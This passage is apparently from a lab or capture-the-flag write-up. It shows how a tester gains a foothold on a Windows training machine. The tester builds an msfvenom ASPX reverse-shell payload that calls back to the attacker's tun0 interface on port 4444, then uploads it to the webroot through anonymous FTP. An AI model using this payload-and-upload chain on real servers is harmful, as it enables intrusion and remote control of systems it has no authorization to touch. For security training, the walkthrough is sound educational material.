 ```
226 Transfer complete.
ftp> 
```
Judging by the files in here, it looks like this is the webroot. Let's see what happens when we visit one of these pages. For starters, I tried the welcome.png file.



![](https://i.imgur.com/TKwqutn.png)
    


## Foothold
Look at that, the files within the webroot can be visited on the site just by viewing as if it was a directory. Since we now now that this is the webroot and that this is running asp.NET, an aspx webshell may potentially get us a shell if we visit the file like we did with the image.
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx`
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2742 bytes
```

This command crafts a reverse shell payload using msfvenom.

`ftp 10.10.10.5`
```
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> bin
200 Type set to I.
ftp> put shell.aspx 
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49241|)
125 Data connection already open; Transfer starting.
100% |*************************|  2742       45.08 MiB/s    00:00 ETA
226 Transfer complete.
2742 bytes sent in 00:00 (35.46 KiB/s)
ftp> exit
221 Goodbye.
```

> Note that before uploading the webshell, we need to set the mode to binary to tranfer binary data rather than the default, ascii. If we let it keep the default, it will corrupt the payload and it will fail to run upon visiting it on the site. 
{: .prompt-warning }
